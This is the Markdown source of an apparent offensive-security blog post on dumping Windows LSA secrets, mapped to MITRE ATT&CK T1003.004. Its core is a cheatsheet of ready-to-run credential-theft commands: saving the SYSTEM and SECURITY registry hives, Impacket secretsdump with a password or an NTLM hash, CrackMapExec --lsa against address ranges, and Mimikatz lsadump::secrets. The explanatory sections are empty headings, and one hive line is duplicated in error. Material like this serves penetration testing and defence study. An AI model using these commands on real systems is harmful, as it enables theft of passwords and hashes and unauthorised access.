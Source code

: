 ```yaml
---
layout: single
title:  "OS Credential Dumping: LSA Secrets"
date:   2021-11-29
categories: CredentialAccess CredentialDumping
sidebar:
    nav: "credaccess"
toc: true
toc_label: Table of Contents
toc_sticky: true

---
```


# Introduction
LSA secrets is part of the data that is stored within the Local Security Authority (LSA) in Windows. LSA itself is utilized to store private data all things revolving around passwords hence why we might care about it. They live within the registry and can be found at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. Naturally since its in the registry, in order to do anything with it, we'll need to have administrative access to the system in question. So in for a penny, in for a pound...

# Cheatsheet
Most of these methods will work without any extra work, but for reference I'll add alternatives to each incase you dont have cleartext password of the user involved, in which case the NTLM hash of the user will be sufficient. If all else fails you can manually save the registry files and export them to your attacking machine and manipulate them as needed. Also, this list will not be exhaustive, as during my research a lot of these tools just piggy back off of each other so I'll list the most common/popular ones that I've seen and used myself.

## Save Registry Files
{% highlight powershell %}
    reg.exe save HKLM\SYSTEM <NAME>
    reg.exe save HKLM\SECURITY <NAME>
    reg.exe save HKLM\SYSTEM <NAME>
{% endhighlight %}

## Impacket SecretsDump
{% highlight shell %}
    python3 secretsdump.py <AD FQDN>/<USERNAME>:<PASSWORD>@<IP ADDRESS>
    python3 secretsdump.py -hashes <NTLM FULL HASH> <AD FQDN>/<USERNAME>@<IP ADDRESS>
    python3 secretsdump.py -sam <SAMNAME> -security <SECURITYNAME> -system <SYSTEMNAME> LOCAL
{% endhighlight %}

## CrackMapExec
{% highlight shell %}
    crackmapexec smb <IP ADDRESS OR RANGE> -u <USERNAME> -p '<PASSWORD>' --lsa
{% endhighlight %}

## Mimikatz (Windows)
{% highlight powershell %}
    lsadump::secrets /system:<LOCATION OF SYSTEM REG FILE> /security:<LOCATION OF SECURITY FILE>
{% endhighlight %}

<br>
# Down The Rabbit Hole
## Attack Demonstration
## What's Really Happening



# Tool References
1. [Impacket SecretsDump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
2. [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
3. [Mimikatz](https://github.com/gentilkiwi/mimikatz)

# References
1. [https://attack.mitre.org/techniques/T1003/004/](https://attack.mitre.org/techniques/T1003/004/)
2. [https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
3. [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
4. [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)